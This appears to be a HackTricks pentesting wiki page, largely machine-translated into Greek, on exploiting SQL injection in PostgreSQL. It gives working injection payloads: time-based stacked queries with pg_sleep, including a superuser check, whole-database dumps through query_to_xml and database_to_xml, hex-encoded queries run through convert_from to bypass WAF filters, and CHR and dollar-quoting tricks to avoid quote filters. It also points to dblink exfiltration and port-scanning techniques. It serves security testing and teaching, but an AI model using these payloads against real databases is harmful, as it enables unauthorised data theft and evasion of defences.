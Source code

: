 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_απαιτείται άριστη γνώση πολωνικών, γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Αυτή η σελίδα στοχεύει να εξηγήσει διάφορα κόλπα που θα μπορούσαν να σας βοηθήσουν να εκμεταλλευτείτε μια SQL injection που βρέθηκε σε μια βάση δεδομένων postgresql και να συμπληρώσετε τα κόλπα που μπορείτε να βρείτε στο** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

Το **PostgreSQL module `dblink`** προσφέρει δυνατότητες για σύνδεση σε άλλες παρουσίες PostgreSQL και εκτέλεση TCP συνδέσεων. Αυτές οι δυνατότητες, σε συνδυασμό με τη λειτουργία `COPY FROM`, επιτρέπουν ενέργειες όπως η κλιμάκωση προνομίων, η σάρωση θυρών και η σύλληψη απαντήσεων προκλήσεων NTLM. Για λεπτομερείς μεθόδους εκτέλεσης αυτών των επιθέσεων, ελέγξτε πώς να [εκτελέσετε αυτές τις επιθέσεις](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltration example using dblink and large objects**

Μπορείτε να [**διαβάσετε αυτό το παράδειγμα**](dblink-lo\_import-data-exfiltration.md) για να δείτε ένα παράδειγμα CTF του **πώς να φορτώσετε δεδομένα μέσα σε μεγάλα αντικείμενα και στη συνέχεια να εξάγετε το περιεχόμενο των μεγάλων αντικειμένων μέσα στο όνομα χρήστη** της συνάρτησης `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Ελέγξτε πώς να συμβιβάσετε τον host και να κλιμακώσετε προνόμια από το PostgreSQL στο:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Η χειραγώγηση συμβολοσειρών θα μπορούσε να σας βοηθήσει να **παρακάμψετε WAFs ή άλλους περιορισμούς**.\
[**Σε αυτή τη σελίδα** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**μπορείτε να βρείτε μερικές χρήσιμες συναρτήσεις συμβολοσειρών.**

### Stacked Queries

Θυμηθείτε ότι το postgresql υποστηρίζει στοίβες ερωτημάτων, αλλά πολλές εφαρμογές θα ρίξουν ένα σφάλμα αν επιστραφούν 2 απαντήσεις όταν αναμένονται μόνο 1. Αλλά, μπορείτε ακόμα να εκμεταλλευτείτε τις στοίβες ερωτημάτων μέσω Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query\_to\_xml**

Αυτή η συνάρτηση θα επιστρέψει όλα τα δεδομένα σε μορφή XML σε ένα μόνο αρχείο. Είναι ιδανική αν θέλετε να εξάγετε πολλά δεδομένα σε μία μόνο γραμμή:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Αυτή η συνάρτηση θα εξάγει ολόκληρη τη βάση δεδομένων σε μορφή XML σε μόλις 1 γραμμή (προσοχή αν η βάση δεδομένων είναι πολύ μεγάλη καθώς μπορεί να προκαλέσετε DoS ή ακόμα και στον δικό σας πελάτη):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Αν μπορείτε να εκτελέσετε **queries** περνώντας τα **μέσα σε μια συμβολοσειρά** (για παράδειγμα χρησιμοποιώντας τη λειτουργία **`query_to_xml`**). **Μπορείτε να χρησιμοποιήσετε το convert\_from για να περάσετε τη συμβολοσειρά ως hex και να παρακάμψετε τα φίλτρα με αυτόν τον τρόπο:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Απαγορευμένα αποσπάσματα

Εάν δεν μπορείτε να χρησιμοποιήσετε αποσπάσματα για το payload σας, μπορείτε να το παρακάμψετε με το `CHR` για βασικές ρήτρες (_η σύνθεση χαρακτήρων λειτουργεί μόνο για βασικά ερωτήματα όπως SELECT, INSERT, DELETE, κ.λπ. Δεν λειτουργεί για όλες τις δηλώσεις SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ή με `$`. Αυτές οι ερωτήσεις επιστρέφουν τα ίδια αποτελέσματα:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραφή και ομιλία στα πολωνικά_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
